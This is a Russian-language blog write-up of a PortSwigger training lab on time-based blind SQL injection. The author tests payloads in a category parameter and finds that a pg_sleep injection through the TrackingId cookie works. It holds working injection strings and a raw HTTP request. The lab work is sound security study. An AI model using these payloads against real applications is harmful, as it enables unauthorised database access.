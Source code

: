 ```yaml
---
title: "Blind SQL injection with time delays"
date: 2025-06-13
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/sql-injection/blind/lab-time-delays"
classes: wide
---
```


Лаба уязвима к **SQL injection**. Для решения лабы нужно получить ответ от сервера с задержкой в 10 секунд.

```
https://0a9000d20405945d8194754100d30039.web-security-academy.net/
```

## Solution

По описанию понятно, что нужно сделать **TIME BASED SQL injection**. Для этого удобнее использовать `Burp`, чтобы видеть время ответа. Сразу обращу внимание на передачу категории через параметр `GET`-запроса:

```
https://0a9000d20405945d8194754100d30039.web-security-academy.net/filter?category=Accessories
```

Попробую подобрать пейлоад:

```
Accessories' and 1=0-- -ok
```

Я получил пустой вывод, хотя категория верная. Значит для обрамления используется `'`.


![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_sqli/IMG_Blind_SQL_injection_with_time_delays/1.png){: height="200" .align-center}


Попробовал на шару закинуть пейлоад с `UNION`:

```
Accessories' UNION SELECT "a", "b" FROM dual-- -error
```

Не вышло. Ладно:( Мне нужно выполнить команду `sleep` на 10 секунд, так что не важно:

```
Accessories' and sleep(10)-- -err
Accessories' and pg_sleep(10)-- -err
```

Хммм... что-то странное. Нужно поискать в другом месте: 

```HTTP
GET /filter?category=Accessories HTTP/2
Host: 0a9000d20405945d8194754100d30039.web-security-academy.net
Cookie: TrackingId=00bWl7TEuuOPDqur; session=M3ntiGbaODBwSWjxY1TJ1qPRaNARTYB0
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:138.0) Gecko/20100101 Firefox/138.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a9000d20405945d8194754100d30039.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
```

Значение `Cookie` похоже на кастомное. Попробую передать запрос через этот параметр:

```
TrackingId=' || sleep(10)-- -none
TrackingId=' || pg_sleep(10)-- -ok
```

Сработало. Так как обрамления я нашел в `GET`-запросе фильтра, то предположил, что такое же используется в этой обработке. А перебрать разные слипы не сложно.


![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_sqli/IMG_Blind_SQL_injection_with_time_delays/2.png){: height="200" .align-center}


Лаба решена) ☕


![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_sqli/IMG_Blind_SQL_injection_with_time_delays/3.png){: height="200" .align-center}

